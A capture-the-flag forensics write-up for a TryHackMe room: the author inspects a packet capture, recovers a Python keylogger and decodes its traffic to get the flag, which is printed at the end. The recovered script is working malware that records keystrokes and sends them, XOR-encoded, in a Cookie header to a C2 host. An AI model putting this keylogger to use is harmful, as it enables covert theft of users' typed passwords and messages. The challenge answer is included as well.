





# Day 04 - Packed Light

Date: July 30, 2026

## Information

* Challenge: [Packed Light](https://tryhackme.com/room/hh-packedlight-02e5330c)
* Category: Forensics
* Difficulty: Easy
* Description:

```text
Tiny packets. Odd hours. Suspiciously regular. Someone's smuggling out the data equivalent of a hotel towel every night, folded neatly inside traffic that looks ordinary until you decode it.

A short capture from the guest network is all VERA could pull before the connection dropped. Somewhere in that traffic, a quiet little errand is running on a loop, and it isn't part of any service the hotel actually offers.
```

## Solution

The challenge provides a `traffic.pcapng` file. I opened it with Wireshark and found an interesting HTTP traffic.



By following the packet stream, I got the following Python script:




```python
import requests
import base64
from pynput import keyboard

C2_URL = "http://byte-lotus-hotel.thm:8080/"

def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2

def xor(data: bytes, key: bytes) -> bytes:
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

def sendltr(character):
    raw_bytes = character.encode('utf-8')
    encrypted = xor(raw_bytes, getkey().encode('utf-8'))
    
    b64_string = base64.b64encode(encrypted).decode('utf-8')
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",
        "Cookie": f"hotel_sess_state={b64_string}"
    }    
    try:
        requests.get(C2_URL, headers=headers, timeout=0.5)
    except:
        pass

def on_press(key):
    try:
        sendltr(key.char)
    except AttributeError:
        if key == keyboard.Key.space:
            sendltr(" ")
        elif key == keyboard.Key.enter:
            sendltr("\n")

print("[*] Byte Lotus Sync Service started...")
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

We can see that the hacker sends the captured data through the `Cookie` header. The data is the string after `hotel_sess_state=` and is encoded using Base64. I filtered the HTTP packets that contain the `Cookie` header.



Instead of extracting them manually, I used:

```bash
tshark -r traffic.pcapng -Y "http.cookie" -T fields -e http.cookie | sed 's/^hotel_sess_state=//'
```



Because each request only encrypts one byte, the variable `i` is always `0`. This means that only the first byte of the key, the character `H`, is used. Therefore, after decoding the cookie value from Base64, we only need to XOR the resulting byte with `H` to recover the original character.

```python
def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2

def xor(data: bytes, key: bytes) -> bytes:
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
```

To get the flag, I used CyberChef:



## Flag

```text
THM{V3r4_1s_w4tch1ng_0veR_y0u}
```
